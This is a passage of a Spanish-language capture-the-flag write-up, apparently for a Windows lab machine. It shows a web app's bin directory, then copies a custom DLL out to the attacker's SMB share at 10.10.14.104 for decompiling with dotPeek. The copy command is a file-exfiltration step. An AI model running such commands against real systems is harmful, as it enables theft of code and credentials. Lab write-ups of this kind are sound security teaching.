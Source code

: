 ## Decompiling .NET DLL + Retrieving Registry Key
En el fichero `bin` encontramos los archivos del servicio web.
```console
C:\inetpub\ExaminationPanel\ExaminationPanel\bin>dir                                           19:58:42 [0/2706]
dir                                                                                       
 Volume in drive C has no label.        
 Volume Serial Number is F854-971D       
                                                                                          
 Directory of C:\inetpub\ExaminationPanel\ExaminationPanel\bin      
                                                                                          
09/26/2023  07:30 AM    <DIR>          .                                                  
09/26/2023  07:30 AM    <DIR>          ..               
09/24/2023  08:46 AM         4,991,352 EntityFramework.dll
09/24/2023  08:46 AM           591,752 EntityFramework.SqlServer.dll
09/24/2023  08:46 AM            13,824 ExaminationManagement.dll 
09/24/2023  08:46 AM            40,168 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
09/24/2023  08:49 AM    <DIR>          roslyn                                                                   
09/24/2023  08:46 AM           431,792 System.Data.SQLite.dll                                                   
09/24/2023  08:46 AM           206,512 System.Data.SQLite.EF6.dll
09/24/2023  08:46 AM           206,520 System.Data.SQLite.Linq.dll
09/24/2023  08:49 AM    <DIR>          x64              
09/24/2023  08:49 AM    <DIR>          x86              
               7 File(s)      6,481,920 bytes                                                                   
               5 Dir(s)   3,961,618,432 bytes free                                                              


```

El único DLL que me llama la atención es `ExaminationManagement.dll` ya que los demás son drivers de SQLServer y SQLite.

Nos copiamos el archivo.
```console
:\inetpub\ExaminationPanel\ExaminationPanel\bin>copy ExaminationManagement.dll \\10.10.14.104\smbFolder\ExaminationManagement.dll
copy ExaminationManagement.dll \\10.10.14.104\smbFolder\ExaminationManagement.dll
        1 file(s) copied.
```

Ahora vamos a descompilarlo con `dotpeek`.

nos vamos a copiar el DLL a nuestra máquina anfitriona (solo si utilizamos máquina virtual)
![Write-up Image](images/Screenshot_44.png)
